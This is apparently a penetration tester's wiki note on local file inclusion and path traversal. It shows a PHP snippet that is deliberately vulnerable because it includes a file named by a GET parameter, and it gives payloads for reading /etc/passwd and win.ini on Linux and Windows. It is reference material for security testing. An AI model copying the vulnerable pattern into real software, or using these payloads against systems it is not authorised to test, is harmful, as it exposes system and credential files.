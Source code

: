 # Manual

```php
<?php
$file = $_GET['file'];
if(isset($file)) {
	include($file);
}
?>
```

## Detection

Navigating directories

### Linux

```
../../../etc/passwd
/etc/passwd
```

### Windows

```
/windows/win.ini
\\localhost\c$\windows\win.ini
```

---
## References

### Backlinks

- [[Path Traversal Payloads|Path Traversal Payloads]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Desktop/Linux/Host/0xG - Log Files/Manual/Living off the Land|Log Files]]

### Payloads All The Things

- [PayloadsAllTheThings: Directory Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)

### Hacking Articles

- [Hacking Articles: Comprehensive Guide on Path Traversal](https://www.hackingarticles.in/comprehensive-guide-on-path-traversal/)

### SecurityIdiots

- [SecurityIdiots: Guide to LFI](https://securityidiots.com/Web-Pentest/LFI/guide-to-lfi.html)

### Bordergate

- [Bordergate: Local File Inclusion (LFI) Attacks](https://www.bordergate.co.uk/local-file-inclusion-attacks/)